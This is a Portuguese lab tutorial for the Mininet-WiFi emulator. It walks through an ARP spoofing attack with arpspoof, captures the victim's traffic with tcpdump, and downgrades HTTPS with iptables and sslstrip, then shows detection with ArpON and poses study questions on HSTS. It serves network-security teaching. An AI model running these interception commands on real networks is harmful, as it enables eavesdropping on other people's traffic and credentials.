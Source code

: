 ************
ARP Spoofing
************
 
ARP Spoofing e Downgrade de Protocolo
-------------

.. Note::

    **Nesta demo você irá aprender como realizar o ataque de ARP Spoofing e também como realizar o downgrade de protocolo:** 

    **Requisitos:** 
    
    - Mininet-WiFi - https://github.com/intrig-unicamp/mininet-wifi
    - dsniff
    - arpon
    - sslstrip
    - curl
    
    **A VM disponível na página do código-fonte do Mininet-WiFi possui todos os requisitos necessários para reprodução deste documento**

Antes de tudo você precisa identificar a topologia de rede que será gerada através do código abaixo:

.. code:: python

    #!/usr/bin/python

    '''@author: Ramon Fontes
       @email: ramon.fontes@imd.ufrn.br'''

    from mininet.log import setLogLevel, info
    from mn_wifi.node import OVSKernelAP
    from mn_wifi.link import wmediumd
    from mn_wifi.cli import CLI
    from mn_wifi.net import Mininet_wifi


    def topology():
        "Create a network."
        net = Mininet_wifi()

        info("*** Creating nodes\n")
        ap1 = net.addAccessPoint('ap1', ssid='new-ssid', mode='g',
                                 channel='1', position='10,10,0',
                                 failMode="standalone")
        sta1 = net.addStation('sta1', position='10,20,0')
        sta2 = net.addStation('sta2', position='10,30,0')

        info("*** Configuring wifi nodes\n")
        net.configureWifiNodes()

        info("*** Starting network\n")
        net.build()
        net.addNAT().configDefault()
        ap1.start([])

        sta2.cmd('echo 1 > /proc/sys/net/ipv4/ip_forward')

        info("*** Running CLI\n")
        CLI(net)

        info("*** Stopping network\n")
        net.stop()


    if __name__ == '__main__':
        setLogLevel('info')
        topology()


Neste tutorial, vamos simular os passos ilustrados na figura de forma a mostrar na prática como ocorre o ataque de ARP Spoofing. Para tanto, vamos considerar executar o script acima. 

Considerando que o nome do arquivo seja `arp.py` você deve executá-lo da seguinte forma:

.. code:: console

    sudo python arp.py
    

Em seguida, faremos uma tentativa de ping a partir de `sta1` para o endereço 8.8.8.8.

.. code:: console

    mininet-wifi> sta1 ping -c1 8.8.8.8

    PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
    64 bytes from 8.8.8.8: icmp_seq=1 ttl=118 time=68.8 ms
    --- 8.8.8.8 ping statistics ---
    1 packets transmitted, 1 received, 0% packet loss, time 0ms
    rtt min/avg/max/mdev = 68.893/68.893/68.893/0.000 ms


Como é possível perceber o ping foi realizado com sucesso. Agora, vamos verificar a tabela ARP de `sta1`. Na tabela deverá constar o endereço IP e também o endereço MAC do gateway padrão de `sta1`.


.. code:: console

    mininet-wifi> sta1 arp -a
    _gateway (10.0.0.3) at 0a:1e:54:0e:66:96 [ether] on sta1-wlan0


Então, vamos simular o ataque de ARP Spoofing e fazer com que `sta1` entenda que o seu gateway na verdade é `sta2`. Primeiro, abra 2 (dois) terminais para `sta2`.

.. code:: console

    mininet-wifi> xterm sta2 sta2


Então, no terminal de `sta2` execute o arpspoof, conforme abaixo.

.. code:: console

    sta2# arpspoof -i sta2-wlan0 -t 10.0.0.1 10.0.0.3


O comando acima induz 10.0.0.1, que é a vítima, a entender que 10.0.0.2, ou seja, `sta2`, representa o endereço do gateway padrão. 

Então, após alguns segundos verificamos novamente a tabela ARP de `sta1`.

.. code:: console

    mininet-wifi> sta1 arp -a
    _gateway (10.0.0.3) at 02:00:00:00:01:00 [ether] on sta1-wlan0
    ? (10.0.0.2) at 02:00:00:00:01:00 [ether] on sta1-wlan0


Aqui, já podemos notar que o endereço MAC do gateway padrão já não é mais o mesmo do identificado anteriormente. 

Agora, realizamos um novo ping de `sta1` para o endereço público 8.8.8.8, ao mesmo tempo em que utilizamos o tcpdump no outro terminal de `sta2` para verificar se `sta2` está recebendo todo tráfego enviado gratuitamente pela vítima.

.. code:: console

    sta2# tcpdump -i sta2-wlan0
    20:30:34.970402 IP 10.0.0.1 > alpha-Inspiron: ICMP echo request, id 12251,seq 8, length 64
    20:30:34.971552 IP alpha-Inspiron > 10.0.0.1: ICMP echo reply, id 12251, seq 8, length 64
    20:30:35.430387 ARP, Reply _gateway is-at 02:00:00:00:01:00 (oui Unknown), length 28
    20:30:35.972565 IP 10.0.0.1 > alpha-Inspiron: ICMP echo request, id 12251,seq 9, length 64
    20:30:35.973722 IP alpha-Inspiron > 10.0.0.1: ICMP echo reply, id 12251, seq 9, length 64
    20:30:36.973743 IP 10.0.0.1 > alpha-Inspiron: ICMP echo request, id 12251, seq 10, length 64
    20:30:36.974884 IP alpha-Inspiron > 10.0.0.1: ICMP echo reply, id 12251, seq 10, length 64


.. code:: console

    mininet-wifi> sta1 ping -c10 8.8.8.8


Após alguns pacotes enviados por `sta1` é possível notar que `sta2` passou a receber os pacotes enviados por `sta1`, pois `sta1` passou a entender que `sta2` seria o verdadeiro gateway padrão. A partir deste momento, `sta2`, o atacante, pode inclusive utilizar de simples ferramentas como `sslstrip` para realizar ataques em cima do protocolo HTTPS (Hyper Text Transfer Protocol Secure) via downgrade de protocolo.


Para interceptar o tráfego não criptografado, é necessário fazer o downgrade da conexão da vítima de HTTPS para HTTP. Isso é possível através do `sslstrip`. Primeiro, é necessário redirecionar o tráfego de saída na porta 80 para 8080 e, em seguida, iniciar o `sslstrip` na porta 8080.

.. code:: console

    mininet-wifi> xterm sta2


Já no terminal aberto de `sta2` digite:

.. code:: console

    sta2# iptables -t nat -p tcp -A PREROUTING --destination-port 80 -j REDIRECT --to-port 8080


E depois:

.. code:: console

    sta2# sslstrip -l 8080

    sslstrip 0.9 by Moxie Marlinspike running...


Na máquina da vítima, use o `curl` para enviar uma solicitação GET para http://globo.com.

.. Note::
   Caso obter algum erro nesta etapa, tente realizar um ping para globo.com a partir de sta1. Se não houver êxito no ping adicione entrada de servidor DNS em /etc/resolv.conf também a partir de sta1.


.. code:: console
    mininet-wifi> sta1 curl -vvv http://globo.com
    *   Trying 186.192.90.12:80...
    * TCP_NODELAY set
    * Connected to globo.com (186.192.90.12) port 80 (#0)
    > GET / HTTP/1.1
    > Host: globo.com
    > User-Agent: curl/7.68.0
    > Accept: */*
    > 
    * Mark bundle as not supporting multiuse
    < HTTP/1.1 301 Moved Permanently
    < Date: Wed, 03 Mar 2021 00:03:21 GMT
    < Content-Type: text/html
    < Content-Length: 178
    < Connection: keep-alive
    < Cache-Control: max-age=600
    < Location: http://www.globo.com/
    < 
    <html>
    <head><title>301 Moved Permanently</title></head>
    <body bgcolor="white">
    <center><h1>301 Moved Permanently</h1></center>
    <hr><center>nginx</center>
    </body>
    </html>
    * Connection #0 to host globo.com left intact
    

Como é possível notar, a solicitação foi redirecionada para http://www.globo.com/. Outro GET nesta nova URL irá retornar o conteúdo da página não criptografado. 

O ataque agora está completo: podemos visualizar o tráfego não criptografado entre a vítima e o site vulnerável usando HTTPS.


.. Note::

    1. Comente sobre o ataque de downgrade de protocolo. Diga  como ele funciona.
    2. O que seria o HTTP Strict Transport Security (HSTS) e como ele seria útil no cenário prático realizado acima?
    3. Anexe duas imagens do wireshark onde, do lado do atacante, mostre requisições de tráfego criptografado e também requisições de tráfego descriptografado.


Como evitar o ARP Spoofing
-------------

O ataque de ARP Spoofing pode ser evitado com o uso de ferramentas como ARP handler inspection (ArpON). Por exemplo, você pode executar o ArpON a partir de `sta1`, conforme abaixo:

.. code:: console

    mininet-wifi> xterm sta1
    arpon -D -i sta1-wlan0


Caso houver um ataque em execução será possível observá-lo após executar o arpon, conforme ilustrado abaixo:


.. code:: console

    arpon -D -i sta1-wlan0
    Oct 30 10:01:41 [INFO] Start DARPI on sta1-wlan0
    Oct 30 10:01:41 [INFO] CLEAN, 10.0.0.3 was at 52:1e:e8:62:58:11 on sta1-wlan0
    Oct 30 10:01:53 [INFO] DENY, 10.0.0.3 was at 2:0:0:0:1:0 on sta1-wlan0
    Oct 30 10:01:53 [INFO] ALLOW, 10.0.0.3 is at 52:1e:e8:62:58:11 on sta1-wlan0
    Oct 30 10:01:55 [INFO] DENY, 10.0.0.3 was at 2:0:0:0:1:0 on sta1-wlan0
